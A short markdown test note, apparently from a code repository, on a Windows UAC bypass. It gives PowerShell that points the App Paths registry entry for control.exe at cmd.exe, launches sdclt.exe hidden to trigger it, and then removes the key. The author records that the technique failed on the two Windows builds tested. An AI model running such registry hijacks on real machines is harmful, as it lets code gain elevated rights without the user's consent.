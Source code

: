 ### Create the Registry
```Powershell

New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force

Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value "C:\Windows\System32\cmd.exe" -Force

```
### Call sdclt.exe
```powershell

Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden

```
### Cleanup
```Powershell

Remove-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Recurse -Force

```


### Notes
- Didn't work on Windows 10 Pro N 1909 Build 18363.1139 
- Didn't work on  Windows 11 Pro N 23H2 Build 22631.3737
- Just opened the sdclt GUI instead of opening cmd.